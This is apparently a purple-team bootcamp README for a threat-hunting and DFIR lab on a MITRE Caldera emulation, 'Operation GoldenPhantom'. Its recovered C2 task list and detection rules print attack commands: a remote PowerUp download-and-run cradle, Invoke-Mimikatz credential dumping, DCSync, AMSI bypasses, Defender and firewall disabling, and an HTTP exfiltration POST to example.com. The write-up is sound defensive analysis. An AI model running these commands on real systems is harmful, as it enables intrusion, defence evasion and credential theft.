

<p align="center">
  
</p>

<h1 align="center">Operation GoldenPhantom</h1>
<h3 align="center">APT Emulation Against a Financial Workstation</h3>
<p align="center">A full-chain threat hunt and DFIR investigation: Splunk + Wireshark + C2 reconstruction</p>

<p align="center">
  
  
  
  
  
  
</p>

---

## Table of Contents

1. [TL;DR](#tldr)
2. [Scenario](#scenario)
3. [Lab Environment](#lab-environment)
4. [Investigation Methodology](#investigation-methodology)
5. [Evidence Preparation](#evidence-preparation-the-xml-is-not-a-log)
6. [Splunk Onboarding](#splunk-onboarding)
7. [Network & C2 Analysis](#network--c2-analysis)
8. [Command-and-Control Reconstruction](#command-and-control-reconstruction)
9. [Credential Compromise](#credential-compromise)
10. [Exfiltration](#exfiltration)
11. [Host Telemetry Analysis](#host-telemetry-analysis)
12. [Consolidated Attack Timeline](#consolidated-attack-timeline)
13. [Flag Resolution (20 IOCs)](#flag-resolution-20-iocs)
14. [Negative Findings](#negative-findings)
15. [Indicators of Compromise](#indicators-of-compromise)
16. [MITRE ATT&CK Mapping](#mitre-attck-mapping)
17. [Detection Engineering](#detection-engineering)
18. [Containment & Remediation](#containment--remediation)
19. [Knowledge Graph & Attack Workflow](#knowledge-graph--attack-workflow)
20. [Lessons Learned](#lessons-learned)
21. [Repository Structure](#repository-structure)

---

## TL;DR

A stand-alone Windows 10 workstation, `DESKTOP-2A1O8LD` (192.168.67.140), was compromised on 28 July 2026. An operator holding an already-elevated interactive session as the local user `anmar` disabled Microsoft Defender, retrieved a **MITRE Caldera "Sandcat" agent** from an internal server (192.168.67.128:8888), and ran it from `C:\Users\Public\splunkd.exe` while deliberately masquerading as the legitimate Splunk Universal Forwarder.

Over roughly three and a half hours the agent executed a fixed adversary-emulation chain **three times**: command-history clearing, a phishing-attachment lure, PowerUp privilege-escalation discovery, a failed Golden Ticket attempt, a **successful in-memory Mimikatz credential dump**, failed DCSync and Snaffler attempts, firewall manipulation, three AMSI bypasses, Defender tampering, and HTTP exfiltration to `example.com`. A second persistence mechanism, a Windows service named **`WindowsUpdateService`** pointing at `C:\Users\Public\update.exe`, was planted by hand outside the C2 channel.

**Outcome:** of the 20 prescribed flags, **11 were confirmed with two independent sources, 2 were ruled partial, and 7 were documented as negatives** (structural impossibility, audit gap, or technique-did-not-occur), each with explicit reasoning rather than a blind claim.

> The full 36-page report lives in [`Mohammed_Rida_Task21_Report.pdf`](./Mohammed_Rida_Task21_Report.pdf). This README reproduces every finding, so you do not need to open the PDF.

---

## Scenario

A cybercriminal group known as **"GoldenPhantom"** has been targeting financial institutions. The group blends social engineering, credential theft, and advanced malware, and disguises legitimate remote-access tooling as trusted software. 

**The mission:** acting as a Senior Threat Hunter at a financial institution, detect GoldenPhantom's presence in the network and identify **20 indicators of compromise (flags)** hidden in the logs, validating every claim against evidence.

Two evidence sources were supplied:

- A **PCAP** of the attack window (`21_scenario_GoldenPhantom.pcapng`)
- A **Splunk search-results export** containing Windows Event Log telemetry from the victim host

---

## Lab Environment

| Role | Detail |
|------|--------|
| **Victim host** | `DESKTOP-2A1O8LD`, Windows 10, WORKGROUP, 192.168.67.140 |
| **Compromised user** | local account `anmar` (interactive, already elevated) |
| **Adversary infrastructure** | 192.168.67.128, MITRE Caldera server (TCP/8888) |
| **SIEM** | Splunk Enterprise, index `goldenphantom`, sourcetype `goldenphantom:winevt` |
| **Analyst tooling** | Wireshark, CyberChef / base64decode for payload decoding |

### Timezone discipline

Three timezones were in play and could not be confused:

1. Raw host event text is stamped in **host local time, UTC+5** (`Asia/Karachi`).
2. The packet capture is recorded in **UTC**.
3. The analyst workstation renders in **W. Europe Summer Time, UTC+2**.

**Every timestamp in this investigation is normalised to UTC.** Aligning both sources to UTC is what later allowed C2 commands and host artefacts to be matched within one to two seconds of each other.

---

## Investigation Methodology

The investigation deliberately parsed the **C2 channel first** so that host artefacts could be hunted against a *known task list* rather than discovered by chance. The order was:

1. **Prepare evidence** — reconstruct a genuine event log from the Splunk XML export.
2. **Onboard to Splunk** — define index, sourcetype, and field extractions, then validate them.
3. **Profile the network** — isolate the C2 channel and agent staging in Wireshark.
4. **Reconstruct C2** — decode every Caldera instruction and result to build the ground-truth task list.
5. **Hunt host telemetry** — confirm each C2 task against Windows Event Log evidence, and record what could not be confirmed.
6. **Resolve flags** — assign every flag a verdict (confirmed / partial / negative) with rationale.

---

## Evidence Preparation: The XML Is Not a Log

**Problem.** The supplied `.xml` is a **Splunk search-results export**, not raw event data. Ingesting it directly produces unusable results: Splunk parses it as XML markup, no Windows event fields are extracted, event boundaries are wrong, and every event inherits the file's modification time instead of its true timestamp. The literal string `index=purple_golden` appears inside the file as data and refers to the index on the originating instance, matching nothing locally.

**Solution.** Each `<result>` element carries a `_raw` field holding the original Windows Event Log text in Splunk's classic `WinEventLog` format. Extracting `_raw` from all **1,032 records** and writing them chronologically produced a genuine, ingestible event log.

---

## Splunk Onboarding

### Index definition (`indexes.conf`)
```ini
[goldenphantom]
homePath   = $SPLUNK_DB\goldenphantom\db
coldPath   = $SPLUNK_DB\goldenphantom\colddb
thawedPath = $SPLUNK_DB\goldenphantom\thaweddb
maxTotalDataSizeMB = 5000
frozenTimePeriodInSecs = 31536000
```

### Sourcetype & index-time settings (`props.conf`)
```ini
[goldenphantom:winevt]
SHOULD_LINEMERGE = false
LINE_BREAKER = ([\r\n]+)(?=\d{2}/\d{2}/\d{4}\s+\d{1,2}:\d{2}:\d{2}\.\d{3}\s+[AP]M)
TRUNCATE = 100000
MAX_TIMESTAMP_LOOKAHEAD = 30
TIME_PREFIX = ^
TIME_FORMAT = %m/%d/%Y %I:%M:%S.%3N %p
TZ = Asia/Karachi
KV_MODE = none
```

Search-time field extractions were defined for `LogName`, `EventCode`, `ComputerName`, `RecordNumber`, `Message`, `Logon_Type`, `Network_Address`, `Process_Name`, `Service_Name`, `Service_File_Name`, `Service_Account`, `ScriptBlock_ID`, `Host_Application`, and script-block part counters. Each was validated against the dataset before use (for example `LogName` and `EventCode` resolve on 1,032/1,032 events).

### What the EventCode distribution already told us

| Count | EventCode | Meaning |
|------:|-----------|---------|
| 614 | 4104 | PowerShell script-block logging |
| 54 | 5379 | Credential Manager credentials read |
| 47 | 4624 | Successful logon |
| 44 | 4672 | Special privileges assigned |
| 31 | 40961 / 40962 / 53504 | PowerShell engine start / IPC |
| 26 | 4798 | Local group membership enumerated |
| 21 | 4100 | PowerShell pipeline error |
| 8 | 4797 | Blank-password query |
| 1 | 7045 | Service installed |
| 1 | 4625 | Failed logon |

A dataset in which **71% of events are PowerShell script blocks**, with exactly one service installation and exactly one failed logon, describes a **fully PowerShell-driven intrusion with a single service-based persistence mechanism and no brute-force component**. The rest of the analysis confirmed this.

---

## Network & C2 Analysis

### Conversation analysis (Wireshark, TCP by bytes)

| Severity | Endpoint | Bytes | Packets | Assessment |
|----------|----------|------:|--------:|------------|
| **CRITICAL** | 192.168.67.128:8888 | 7,854,557 | 5,339 | Caldera C2 + agent staging |
| **CRITICAL** | 192.168.67.128:8888 | 2,560,996 | 1,730 | Second agent session |
| LOW | 192.168.67.128:9997 | 3,186,189 | 481 | Splunk forwarder (legitimate) |
| LOW | 185.199.109.133:443 | 2,984,938 | 2,177 | GitHub tool staging (TLS) |

### C2 identification

```
tcp.port == 8888
http.request.uri == "/beacon"
http.request.uri == "/file/download"
```

The `/beacon` filter returns a regular sequence of HTTP POSTs from User-Agent `Go-http-client/1.1` at 30 to 60 second intervals. The server responds with `Server: Python/3.13 aiohttp/3.14.1`. Both fingerprints, combined with the `/beacon` and `/file/download` endpoints on TCP/8888, identify the platform unambiguously as **MITRE Caldera**.

### Agent staging

Filtering `http.request.uri == "/file/download"` returns two hits (frames 15866 and 43041). Following the stream reveals the request headers (`platform: windows`, `file: sandcat.go`) and a response delivering `sandcat.go-windows`, the Caldera Sandcat PE. The binary was exported via *File → Export Objects → HTTP* for hashing and offline analysis.

---

## Command-and-Control Reconstruction

Caldera Sandcat communicates over **plaintext HTTP with base64-encoded JSON bodies**. Every task issued and every result returned is therefore recoverable from the capture, giving the equivalent of a Caldera operation report.

**Decoding procedure**

1. Filter `http.request.uri == "/beacon"`.
2. *Follow → HTTP Stream*.
3. Decode the base64 body (`From Base64 → JSON Beautify`).
4. The `command` value inside the JSON is base64 a **second** time; decode again to obtain the PowerShell or cmd line.
5. Agent responses carry `results[].output` and `results[].stderr`, also double-base64 encoded.

### Agent profile (the masquerade proof)

| Field | Value |
|-------|-------|
| PAW (agent IDs) | `bjzrpq` (PID 4084), `mwwfqs` (PID 5108) |
| Host | DESKTOP-2A1O8LD |
| Executing user | `DESKTOP-2A1O8LD\anmar` |
| Privilege | **Elevated** |
| Executable name | `splunkd.exe` |
| Location | `C:\Users\Public\splunkd.exe` |
| Server | `http://192.168.67.128:8888` |

The first beacon POST decodes to the agent's self-profile (`"exe_name":"splunkd.exe"`, `"location":"C:\Users\Public\splunkd.exe"`). This single decoded field is the primary evidence for **T1036.005 Masquerading**: the binary is named after, and planted to impersonate, the legitimate Splunk Universal Forwarder that genuinely runs on the same host.

### Recovered task list

Thirty-six distinct instructions were recovered; the unique chain was replayed three times across the operation.

| Time (UTC) | Command (abridged) | Exec | Result |
|-----------|--------------------|------|--------|
| 05:44:09 | `Clear-History; Clear` | psh | Success |
| 05:46:56 | Download `PhishingAttachment.xlsm` (Atomic Red Team) | psh | Success |
| 05:47:46 | `iex(iwr .../PowerUp.ps1); Invoke-AllChecks` | psh | Success |
| 05:49:16 | Golden Ticket script `kerberos::golden` | psh | **Failed** |
| 05:49:53 | `Invoke-Mimikatz -DumpCreds` | cmd | **Success** |
| 05:50:54 | `mimikatz.exe lsadump::dcsync` | cmd | **Failed** |
| 05:51:43 | `Snaffler.exe -a share hunting` | psh | Timed out |
| 05:53:22 | `.\obfuscated_payload.ps1 -Scan` | psh | **Failed** |
| 05:54:00 | `netsh advfirewall` enable RDP + file sharing | cmd | Success (33 rules) |
| 05:54:32 | AMSI bypass via `amsiInitFailed` | psh | Success |
| 05:55:18 | Registry `AmsiEnable = 0` | psh | Success |
| 05:56:11 | `netsh advfirewall set currentprofile state off` | cmd | Success |
| 05:57:10 | `Set-MpPreference -DisableRealtimeMonitoring 1` | psh | Success |
| 05:57:53 | `Invoke-WebRequest -Uri example.com -Method POST` | psh | HTTP 405 |
| 07:31:13 | `powershell -EncodedCommand ...` (flag verification) | psh | Success |

---

## Credential Compromise

The beacon POST at 05:49:58 UTC carries a 19,188-byte body. Decoded twice, it yields the **complete Mimikatz output** for local user `anmar`: the `msv` / `NTLM`, `SHA1`, and `DPAPI` material, plus `wdigest`, read straight off the wire.

Because Caldera beacons over **unencrypted HTTP**, the NTLM hash of `anmar` left the endpoint in cleartext and is recoverable by any party with network visibility. The same intrusion over TLS would have left only metadata, and the credential compromise would have been inferred rather than proven.

---

## Exfiltration

Three exfiltration attempts were made (frames 27163 at 05:57:53, 29253 at 06:08:02, and 41204 at 06:45:54). Each transmitted 1,691 bytes from `%TEMP%\LineNumbers.txt` over **unencrypted HTTP** to a destination unrelated to the C2 server, satisfying **T1048.003 Exfiltration Over Unencrypted Non-C2 Protocol**.

The Follow-Stream view shows the request transited the lab web proxy (`Via: 1.1 proxy-10 (squid/4.15)`) and reached genuine Cloudflare infrastructure fronting `example.com`, which returned **`405 Method Not Allowed`**. No data was successfully received, but the exfiltration attempt is fully evidenced.

---

## Host Telemetry Analysis

### Persistence (EventCode 7045)

| Field | Value |
|-------|-------|
| Time | 2026-07-28 06:11:13 UTC |
| Service name | `WindowsUpdateService` |
| Service file | `C:\Users\Public\update.exe` |
| Start type | auto start |
| Account | `LocalSystem` |

This service **does not correspond to any recovered Caldera instruction**. It was therefore placed outside the C2 channel, most plausibly by hand at the console, and represents a second, independent persistence mechanism. The name imitates a Windows update component; the binary location in a world-writable directory contradicts that identity. It was independently corroborated by a Splunk Universal Forwarder S2S frame (30075) shipping the same 7045 event to the indexer.

### Execution (EventCode 4104)

614 script-block events reassemble into **55 distinct script blocks**. The largest are `Invoke-Mimikatz` (196 + 145 chunks, 2.86 MB reassembled) and `PowerUp.ps1` (49 + 40 + 31 chunks, 600 KB). The command lines that launched them were recovered from the PowerShell `Host Application` field.

### Defence evasion

- **Defender real-time protection disabled** — EventCode 5001 at 05:44:04 UTC, six seconds after the Sandcat binary was downloaded and five seconds before the first beacon. The sequencing permitted the agent to execute unimpeded.
- **Three AMSI bypasses** — `amsiInitFailed` (05:54:32 and 06:43:08) captured in script-block logging, plus the `AmsiEnable = 0` registry write.

### Access (EventCode 4624)

Three **interactive (Type 2) console logons** for `anmar` at 05:43:53, 07:06:46, and 07:52:48 UTC. All 41 remaining 4624 events are Type 5 service logons generated by `services.exe` and are background noise.

### Discovery

PowerShell CIM cmdlets trigger auto-loading of their backing module, itself logged as a script block:

- `MSFT_ScheduledTask` at 06:11:19 UTC (a scheduled-task cmdlet was invoked but **no task was created**).
- `MSFT_NetTCPConnection` / `MSFT_NetUDPEndpoint` at 06:13:22 UTC (network connection enumeration).
- EventCode 4797 records a sweep of all **eight local accounts for blank passwords** within a six-millisecond window at 07:53:46 UTC.

A single failed logon (EventCode 4625) exists in the entire dataset: `anmar`, Type 2, source 127.0.0.1, reason *unknown user name or bad password*. A single console mistype does not meet the threshold for brute force.

---

## Consolidated Attack Timeline

| Time (UTC) | Event | Source |
|-----------|-------|--------|
| 05:43:53 | Interactive logon, `anmar` Type 2 | Splunk 4624 |
| 05:43:58 | Sandcat agent retrieved from 192.168.67.128:8888 | PCAP frame 15866 |
| 05:44:04 | Defender real-time protection disabled | Splunk 5001 |
| 05:44:09 | First beacon, PAW `bjzrpq`, Elevated | PCAP |
| 05:44:09 | `Clear-History; Clear` | PCAP C2 |
| 05:46:56 | Phishing attachment downloaded | PCAP C2 |
| 05:47:46 | PowerUp `Invoke-AllChecks` | PCAP C2 + Splunk 4104 |
| 05:49:16 | Golden Ticket attempt, failed | PCAP C2 stderr |
| 05:49:53 | `Invoke-Mimikatz -DumpCreds`, succeeded | PCAP C2 + Splunk 4104 |
| 05:50:54 | DCSync attempt, failed | PCAP C2 stderr |
| 05:51:43 | Snaffler share hunt, timed out | PCAP C2 |
| 05:53:22 | Obfuscated payload execution, failed | PCAP C2 stderr |
| 05:54:00 | Firewall rules enabled for RDP and file sharing | PCAP C2 |
| 05:54:32 | AMSI bypass, `amsiInitFailed` | PCAP C2 + Splunk 4104 |
| 05:55:18 | Registry `AmsiEnable = 0` | PCAP C2 |
| 05:56:11 | Firewall profile disabled | PCAP C2 |
| 05:57:10 | `Set-MpPreference -DisableRealtimeMonitoring 1` | PCAP C2 + Splunk 4104 |
| 05:57:53 | Exfiltration attempt 1 to example.com | PCAP 27163 + Splunk 4100 |
| 06:08:02 | Exfiltration attempt 2 | PCAP 29253 |
| 06:11:13 | Service `WindowsUpdateService` installed | Splunk 7045 + PCAP 9997 |
| 06:11:19 | Scheduled-task module autoloaded, no task created | Splunk 4104 |
| 06:13:22 | Network connection enumeration | Splunk 4104 |
| 06:34 to 06:46 | Full attack chain replayed | PCAP C2 + Splunk 4104 |
| 06:45:54 | Exfiltration attempt 3 | PCAP 41204 |
| 07:06:59 | Second Sandcat agent staged, PAW `mwwfqs` | PCAP 43041 |
| 07:31:13 | Encoded flag-verification script executed | PCAP C2 + Splunk 4100 |
| 07:52:46 | Single failed logon, `anmar` | Splunk 4625 |
| 07:53:46 | Blank-password sweep of all local accounts | Splunk 4797 |

---

## Flag Resolution (20 IOCs)

**11 confirmed, 2 partial, 7 negative.** Every verdict is backed by evidence rather than assumption.

| Flag | EventCode | ATT&CK | Verdict | Evidence |
|------|-----------|--------|---------|----------|
| F01 | 4624 | T1078 | ✅ CONFIRMED | Type 2 logon `anmar` + Caldera agent profile (Elevated) |
| F02 | 4104 | T1059 | 🟧 PARTIAL | 4688 absent from export; substituted with script-block logging + C2 executor field |
| F03 | 4104 | T1059.001 | ✅ CONFIRMED | 614 script-block events + Host Application download cradles |
| F04 | 7045 | T1543.003 | ✅ CONFIRMED | `WindowsUpdateService → update.exe` + forwarder S2S frame |
| F05 | 4698 | T1053 | ❌ NEGATIVE | Task Scheduler auditing not enabled; module loaded but no task created |
| F06 | Sysmon 10 | T1003.001 | ✅ CONFIRMED | Mimikatz output recovered from C2 + `Invoke-Mimikatz` script block |
| F07 | 4662 | T1003.006 | ❌ NEGATIVE | DCSync attempted 4x; all failed, WORKGROUP host, no directory service |
| F08 | 5156 | T1046 | 🟧 PARTIAL | WFP auditing disabled; substituted with NetTCPConnection module autoload |
| F09 | Sysmon 1 | T1562 | ✅ CONFIRMED | `Set-MpPreference` from C2 + Defender CIM module autoload |
| F10 | 1116 | T1562.001 | ✅ CONFIRMED | Defender EventCode 5001, real-time protection disabled |
| F11 | 4672 | T1068 | ✅ CONFIRMED | 44 special-privilege events + PowerUp output confirming local admin |
| F12 | 4720 | T1136 | ❌ NEGATIVE | No account created; account roster unchanged across the capture |
| F13 | 4732 | T1098 | ❌ NEGATIVE | No group-membership modification present |
| F14 | 4657 | T1112 | ✅ CONFIRMED | Registry auditing disabled; write proven by C2 instruction `AmsiEnable = 0` |
| F15 | 7034 | T1489 | ❌ NEGATIVE | No service crash; `Stop-Service WinDefend` was a non-executed conditional branch |
| F16 | 4625 | T1110 | 🟧 PARTIAL | Exactly one failed logon, insufficient for brute force |
| F17 | 4769 | T1558.003 | ❌ NEGATIVE | Structurally impossible, WORKGROUP host, Kerberos not in use |
| F18 | 4768 | T1558.001 | ❌ NEGATIVE | Golden Ticket attempted; script failed on a parser error before Kerberos interaction |
| F19 | - | T1048.003 | ✅ CONFIRMED | Three HTTP POSTs to example.com + PowerShell 4100 errors |
| F20 | 4797 | T1087.001 | ✅ CONFIRMED | Blank-password sweep of all 8 local accounts (EID 4797) + Caldera account-discovery task |

---

## Negative Findings

An absent EventCode has three possible causes, and they are **not equivalent**: the technique did not occur, the technique occurred but auditing for it was disabled, or the technique was structurally impossible in this environment. Only the third can be stated with certainty without further evidence. Each negative was classified rather than silently dropped.

| Flag | Class | Rationale |
|------|-------|-----------|
| F17 / F18 | **Structural** | Host is not domain-joined. No Kerberos KDC exists, so 4768/4769 cannot be generated. The Golden Ticket attempt is still evidenced by its recovered failure output. |
| F07 | **Structural** | DCSync requires directory-replication rights against a domain controller. Four attempts were made; all returned *The system cannot find the path specified.* |
| F05 | **Audit gap** | Object-access auditing for Task Scheduler is disabled. A scheduled-task cmdlet ran at 06:11:19 UTC but no task creation followed. |
| F08 | **Audit gap** | Windows Filtering Platform connection auditing is disabled. Network enumeration is still evidenced through module autoload. |
| F14 | **Audit gap** | Registry object auditing is disabled. The write is proven independently by the recovered C2 instruction. |
| F12 / F13 | **Not occurred** | No account creation or group modification took place. The local account roster at 07:53:46 UTC is identical to the roster at 05:31:32 UTC. |
| F15 | **Not occurred** | No unexpected service termination. The `Stop-Service WinDefend` call existed only in the `else` branch of a conditional that evaluated false. |

---

## Indicators of Compromise

> All network indicators are defanged.

| Type | Value |
|------|-------|
| IPv4 (C2) | `192.168.67[.]128` - TCP/8888 |
| URL | `hxxp://192.168.67[.]128:8888/beacon` |
| URL | `hxxp://192.168.67[.]128:8888/file/download` |
| Domain | `example[.]com` - exfiltration destination |
| IPv4 | `8.6.112[.]0` and `8.47.69[.]8` - resolved exfil addresses |
| Domain | `raw.githubusercontent[.]com` - tooling retrieval |
| IPv4 | `185.199.109[.]133`, `185.199.110[.]133`, `185.199.111[.]133` |
| File path | `C:\Users\Public\splunkd.exe` - Caldera Sandcat agent |
| File path | `C:\Users\Public\update.exe` - service binary |
| File path | `%TEMP%\PhishingAttachment.xlsm` |
| File path | `%TEMP%\LineNumbers.txt` - exfiltration staging |
| Service | `WindowsUpdateService` - LocalSystem, auto start |
| Registry | `HKCU\Software\Microsoft\Windows Script\Settings\AmsiEnable = 0` |
| Agent PAW | `bjzrpq`, `mwwfqs` |
| User-Agent | `Go-http-client/1.1` - Sandcat beacon |
| User-Agent | `Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/5.1.19041.6456` |
| Server banner | `Python/3.13 aiohttp/3.14.1` |
| SHA256 (x86) | `08AB87667A5C6EB25DDB1BD659613EF8C773526AE28B191C34E854CD6F13F8D4` - Mimikatz x86 PE |
| SHA256 (x64) | `E4B762ECA32A797E305C9949504B95C4CDCF68FC8EEE0B3C101842488AF27D4F` - Mimikatz x64 PE |
| Compromised | NTLM hash of local user `anmar` - exposed in cleartext |

---

## MITRE ATT&CK Mapping

**14 confirmed techniques, 5 attempted.**

| TTP ID | Technique | Application |
|--------|-----------|-------------|
| T1078 | Valid Accounts | Elevated session as local user `anmar` |
| T1059.001 | PowerShell | 614 script-block events; all execution PowerShell-driven |
| T1105 | Ingress Tool Transfer | Sandcat agent and PowerSploit modules retrieved |
| T1071.001 | Web Protocols | HTTP beacon to 192.168.67[.]128:8888 |
| T1036.005 | Masquerading | Agent named `splunkd.exe`; service named `WindowsUpdateService` |
| T1543.003 | Windows Service | `WindowsUpdateService` as LocalSystem |
| T1003.001 | LSASS Memory | `Invoke-Mimikatz -DumpCreds` |
| T1068 | Privilege Escalation Discovery | PowerUp `Invoke-AllChecks` |
| T1562.001 | Disable or Modify Tools | Defender RTP off; three AMSI bypasses |
| T1562.004 | Disable System Firewall | `netsh advfirewall` rule enable then profile off |
| T1112 | Modify Registry | `AmsiEnable = 0` |
| T1070.003 | Clear Command History | `Clear-History; Clear` |
| T1087.001 | Local Account Discovery | Blank-password sweep, EventCode 4797 (F20) |
| T1048.003 | Exfil Over Unencrypted Protocol | Three HTTP POSTs to `example[.]com` |

---

## Detection Engineering

### Sigma: service installed from a world-writable path
```yaml
title: Service Installed From User-Writable Directory
id: 8c1f4a2e-3b7d-4c5a-9e11-0f2a6b3d7c48
status: experimental
logsource:
  product: windows
  service: system
detection:
  selection:
    EventID: 7045
    ImagePath|contains:
      - '\Users\Public\'
      - '\AppData\Local\Temp\'
      - '\ProgramData\'
  condition: selection
falsepositives:
  - Poorly packaged third-party installers
level: high
```

### Sigma: AMSI bypass or Defender tampering in a script block
```yaml
title: AMSI Bypass or Defender Tampering in Script Block
id: 4d9a0b17-52c6-4e83-b7a0-9c5e1d2f6a03
status: experimental
logsource:
  product: windows
  service: powershell
detection:
  selection:
    EventID: 4104
    ScriptBlockText|contains:
      - 'amsiInitFailed'
      - 'AmsiEnable'
      - 'DisableRealtimeMonitoring'
      - 'Invoke-Mimikatz'
      - 'Invoke-AllChecks'
  condition: selection
falsepositives:
  - Authorised red team exercises
level: critical
```

### Suricata: Caldera Sandcat beacon & staging
```
alert http $HOME_NET any -> any any ( \
msg:"ET CUSTOM MITRE Caldera Sandcat beacon"; \
flow:established,to_server; \
http.method; content:"POST"; \
http.uri; content:"/beacon"; bsize:7; \
http.user_agent; content:"Go-http-client"; \
classtype:trojan-activity; sid:9000001; rev:1;)

alert http $HOME_NET any -> any any ( \
msg:"ET CUSTOM Caldera agent staging request"; \
flow:established,to_server; \
http.uri; content:"/file/download"; \
http.header; content:"file|3a| sandcat.go"; \
classtype:trojan-activity; sid:9000002; rev:1;)
```

A **Splunk correlation search** was also authored to tie the Defender-disable / AMSI-bypass / Mimikatz sequence into a single detectable chain.

---

## Containment & Remediation

**Immediate containment**
1. Isolate 192.168.67.140 from the network. Preserve memory before power-state changes.
2. Block 192.168.67.128:8888 at the perimeter and internal segmentation points.
3. Rotate the credentials of local user `anmar`. The NTLM hash is compromised.
4. Invalidate any session tokens found in Credential Manager.

**Eradication**
1. Delete the `WindowsUpdateService` service and `C:\Users\Public\update.exe`.
2. Delete `C:\Users\Public\splunkd.exe`.
3. Remove the `AmsiEnable` registry value.
4. Re-enable Defender real-time protection and restore firewall profile state.
5. Revert the 33 firewall rules re-enabled for RDP and file sharing.
6. Given LSASS access by an attacker-controlled process, **rebuild is preferred over cleanup**.

**Hardening**
1. Enable auditing for process creation (4688 with command line), registry objects (4657), scheduled tasks (4698), and WFP connections (5156). Their absence materially reduced the evidentiary value of this dataset.
2. Deploy Sysmon and forward it to the SIEM.
3. Apply WDAC or AppLocker rules blocking execution from `C:\Users\Public` and `%TEMP%`.
4. Enable PowerShell Constrained Language Mode for non-administrative users.
5. Enable Defender tamper protection so `Set-MpPreference` cannot disable monitoring.
6. Block outbound HTTP to uncategorised destinations; require proxy inspection.

---

## Knowledge Graph & Attack Workflow

To connect every concept rather than treat the steps in isolation, the kill chain, its telemetry, and its key IoCs were modelled two ways and are stored in [`KG/`](./KG/):

- **Attack execution workflow** — an end-to-end diagram linking valid-account access, Defender disabling, ingress tool transfer, masquerading, the HTTP C2 beacon, PowerShell execution, LSASS dump, failed domain TTPs, AMSI + firewall tampering, registry modification, service persistence, discovery, exfiltration, and redeploy.
- **Obsidian knowledge graph** — a node graph colour-coded by Technique, IoC, Tool, and Actor, centred on the `GoldenPhantom` APT node, so each flag, piece of evidence, and TTP can be traced to its neighbours.

---

## Lessons Learned

- **A prescribed EventCode is a hypothesis, not a fact.** Nine of the twenty prescribed EventCodes did not exist in the dataset. Testing each one before building analysis on it prevented nine unsupported claims and turned the absences into defensible findings.
- **Evidence format determines evidence value.** The supplied XML was a search-results export, not a log. Understanding the difference between Splunk's `_raw` field and its presentation wrapper was the precondition for the entire host-side investigation.
- **Plaintext C2 is a gift to the defender.** Because Caldera beacons over unencrypted HTTP, the complete task list, command output, and credential dump were recoverable. Over TLS, only metadata would have survived.
- **Indirect artefacts can substitute for missing direct ones.** Registry, task, and WFP auditing were all disabled, yet those techniques were still evidenced through recovered C2 instructions and PowerShell module-autoload events.
- **Timezone errors silently invalidate correlation.** The export renders at UTC+5 while the capture is UTC. Aligning both to UTC is what allowed C2 commands and host artefacts to be matched within one to two seconds.
- **Attribution requires ruling out the benign.** The C2 server and the Splunk indexer share an IP address; the port was the discriminator. A forwarder, a Wazuh agent, a Nessus feed, and routine Windows servicing all produced traffic that superficially resembled adversary activity.

---

## Repository Structure

```
.
├── README.md                          # This document (full investigation writeup)
├── Mohammed_Rida_Task21_Report.pdf    # Full 36-page LaTeX report
├── KG/                                # Obsidian knowledge graph + attack-workflow diagram
└── Screenshots/                       # Evidence screenshots + investigation cover image
    └── investigation.png              # README cover banner
```

---

<p align="center">
  <b>Mohammed Rida Lakhdari</b> · Purple Team Bootcamp (Golden) · Threat Hunting & DFIR<br>
  <sub>Scenario: Operation GoldenPhantom · All timestamps normalised to UTC · Network IoCs defanged</sub>
</p>
